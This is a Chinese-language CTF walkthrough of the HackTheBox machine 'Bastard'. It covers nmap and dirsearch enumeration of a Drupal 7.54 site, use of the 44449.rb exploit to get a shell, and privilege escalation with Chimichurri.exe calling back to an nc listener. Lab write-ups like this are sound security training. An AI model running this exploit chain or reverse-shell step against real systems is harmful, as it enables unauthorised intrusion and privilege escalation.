 # Bastard

- **Bastard是hackthebox上一台难度中等的windows靶机**

### 信息收集

- nmap进行端口扫描，首先扫描前100个容易受到攻击的端口

![0.9](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.9.png)

- nmap进行更细致的扫描

![1](https://herozql.oss-cn-beijing.aliyuncs.com/main/1.png)

- nmap扫描是否存在漏洞

![2](https://herozql.oss-cn-beijing.aliyuncs.com/main/2.png)

- 至此，nmap向我们反馈了有用的信息：

```
80 http
135 msrpc
49154 open unknow
```

- 登录80端口，查看网页信息

![0.1](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.1.png)

- 我们从网页底部可以知道这个CMS是drupal系统，但是我们不知道他的具体版本
- 接下来使用dirsearch进行目录扫描，我尝试使用gobuster 进行扫描，但是结果并能使人满意，可能这次并不适用于用gobuster扫描，有时候最好同时使用这两个工具进行扫描，并且更换不同的字典然后进行多次扫描，可能会费时费力，但是收集有用的信息对我们来说是非常重要的

``` 
dirsearch -u http://10.129.189.21 -x 403 -t 200
```

![0.15](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.15.png)

- 我们发现了许多文件，其中CHAGELOG.txt文件中有这CMS的版本信息，我们可以查看到

![0.2](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.2.png)

- 当然，我也参考了别人的walkthrough，他们扫描出了/rest 文件夹，我试着使用它们的字典以及工具进行扫描，扫描时间实在太长，而且我们完全可以不使用 /rest 文件就能达到我们的渗透目的
- 接下来使用searchsploit 对 drupal 7.54 版本进行扫描

![3.9](https://herozql.oss-cn-beijing.aliyuncs.com/main/3.9.png)



### 漏洞利用

- 使用 44449.rb 脚本

![4](https://herozql.oss-cn-beijing.aliyuncs.com/main/4.png)

![5](https://herozql.oss-cn-beijing.aliyuncs.com/main/5.png)

![4.5](https://herozql.oss-cn-beijing.aliyuncs.com/main/4.5.png)

- 我们得到了一个shell，这是我在参考了许多walkthrough后得到的最快捷的方式

- 查看系统信息

![6](https://herozql.oss-cn-beijing.aliyuncs.com/main/6.png)



### 权限提升

- 下载使用[Chimichurri](https://github.com/mxrmiss/Chimichurri)脚本

![7](https://herozql.oss-cn-beijing.aliyuncs.com/main/7.png)

- 在windows靶机中接收脚本文件

![8](https://herozql.oss-cn-beijing.aliyuncs.com/main/8.png)

- 本地机器nc监听端口
- 靶机上使用脚本文件

```
chimichurri.exe ip port
```

- 查看之前监听的端口(可能一次不一会成功，需要多试几次)

![9](https://herozql.oss-cn-beijing.aliyuncs.com/main/9.png)

- 结束